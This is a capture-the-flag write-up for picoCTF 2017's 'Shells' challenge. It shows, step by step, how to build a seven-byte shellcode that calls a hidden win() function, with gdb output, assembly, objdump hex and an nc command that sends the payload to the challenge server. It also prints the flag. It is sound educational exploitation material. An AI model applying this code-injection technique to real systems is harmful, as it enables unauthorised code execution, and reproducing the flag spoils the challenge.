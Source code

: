 ### Shells - 70 points

> How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:61986.

Hint:
> 	Read about basic shellcode
>	You don't need a full shell (yet...), just enough to get the flag

We are presented with a piece of code, that has a function called win (not called anywhere).
```c
void win(){
    system("/bin/cat ./flag.txt");    
}
```
However, we have a string that we can overflow. This string will read from our input (stuff), and will be used to create a function pointer that will be called.
```c
int len = read(STDIN_FILENO, stuff, AMOUNT_OF_STUFF);
...
void (*func)() = (void (*)())stuff;
    func();
```

In this problem we can only give 10 bytes, therefore we want to use them to call the win function.
The first thing we need, is to find the corresponding address.
Using gdb, we can print it by:
```
(gdb) p win                                                                                        
$1 = {<text variable, no debug info>} 0x8048540 <win>
```

Now, (just like the hint says) we create our own shellcode:
```
;shell.asm
[SECTION .text]

global _start

_start:
	mov eax, 0x08048540
    call eax
```
After this, we just get the corresponding hex:
```
$ nasm -f elf shell.asm
$ ld -o shell shell.o
$ objdump -d shell
```
Which gives us:
```
08048060 <.text>:
 8048060:	b8 40 85 04 08       	mov    $0x8048540,%eax
 8048065:	ff d0                	call   *%eax
```
The hex will be:
```
\xb8\x40\x85\x04\x08\xff\xd0
```
Finally, we just pass it onto the program. We can do this by running this command:
```
python -c 'print("\xb8\x40\x85\x04\x08\xff\xd0")' | nc shell2017.picoctf.com 61986
```
This returns us the following:
```
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
9e33b38da0c2cf684298bc23aa77685e
```

Flag:
```
9e33b38da0c2cf684298bc23aa77685e
```